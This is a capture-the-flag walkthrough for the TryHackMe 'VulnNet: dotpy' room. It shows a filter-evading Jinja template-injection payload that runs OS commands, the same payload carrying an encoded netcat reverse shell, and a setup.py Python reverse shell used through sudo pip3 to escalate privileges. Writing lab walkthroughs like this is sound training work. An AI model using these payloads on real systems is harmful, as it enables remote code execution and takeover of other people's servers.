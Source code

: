 ```yaml
---
title: Vulnet Dotpy
layout: post
author: Bit Criminals Team
date: 2021-05-17 21:27:00 +0530
type: Pentesting
difficulty: Medium
prompt: https://tryhackme.com/room/vulnnetdotpy
---
```



As usual lets start with the nmap scan...


![](/images/D4rkDemian/dotpy1.png)


We got only one port i.e **8080** and gobuster was not working so using ffuf we found only three directories namely:

```
/login
/register
/logout
```

So we created an account and logged in into the website.


On enumerating we found that if we enter any wrong directory in the url we can see a 400 error page whose content was same eveytime except the input that we give in the url..


![](/images/D4rkDemian/dotpy3.png)


So we guessed it would be template injection and confirmed it by entering {{7*7}}.


So now we found an exploit command which will find the os library within the running machine and let us run our commands like **id** , **ls** etc..


```py

{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}

```

This worked and we got our output.


![](/images/D4rkDemian/dotpy6.png)


Now lets put our revershell also and listen to our local terminal using nc...

Now the exploit looks as follows 

```py
/%7B%7Brequest|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen'
('rm\x20\x2Ftmp\x2Ff\x3Bmkfifo\x20\x2Ftmp\x2Ff\x3Bcat\x20\x2Ftmp\x2Ff\x7Cbash\x20\x2Di\x202\x3E\x261\x7Cnc
\x2010\x2E8\x2E7\x2E41\x201337\x20\x3E\x2Ftmp\x2Ff')|attr('read')()%7D%7D

```

We replaced the percent sign with \x and . with \x2E as they were getting blocked by the website.

And so we got our shell 

Lets send socat to the shell to make it more stabilized..

After doing sudo -l we found that user web had the permission to run /usr/bin/pip3 as system-adm user .


So we created a setup.py file and placed the python reverse shell in it 


```py
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.7.41",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > /tmp/shell/setup.py
```


Now listen on your local machine and run the following command in the shell 

```shell
sudo -u system-adm /usr/bin/pip3 install /tmp/shell
```

And now we are system-adm 


